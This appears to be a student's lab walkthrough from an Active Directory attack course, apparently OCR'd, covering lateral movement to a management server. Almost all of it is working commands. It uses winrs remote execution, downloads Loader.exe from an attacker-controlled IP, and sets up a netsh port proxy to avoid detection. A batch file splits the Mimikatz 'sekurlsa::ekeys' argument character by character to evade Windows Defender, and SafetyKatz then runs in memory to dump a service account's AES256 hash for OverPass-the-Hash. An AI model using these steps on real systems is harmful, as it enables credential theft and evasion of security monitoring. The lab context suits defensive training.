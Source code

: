 <3==**Abuse using winrs**==<3
check if we can execute commands on dcorp-mgmt server and if the winrm port is open: (do this in Jenkins session)
```
	winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```
Since we can, we can try to extract creds
For that, we need to copy Loader.exe on dcorp-mgmt. Let's download Loader.exe on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.
Run the following command on the reverse shell:
```
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
Now, copy the Loader.exe to dcorp-mgmt:
```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:
```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
Note that Windows Defender on dcorp-mgmt would detect SafetKatz execution even when used with Loader. To avoid that, let's pass encoded arguments to the Loader, go to C:\AD\Tools
```
ArgSplit.bat
sekurlsa::ekeys
```
make batch file like  and name is safety.bat
```
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```
Download the batch file on dcorp-ci. Run the below commands on the reverse shell:
```
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```
Now, copy the Safety.bat to dcorp-mgmt:
```
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```
Run Safety.bat on dcorp-mgmt that use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:
```
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```
we will find svcadmin creds (aes256 hash)
Then we will  use **==OverPass-the-Hash to use svcadmin's credentials==**
```
go to C:\AD\Tools\ArgSplit.bat in new cmd in student VM
```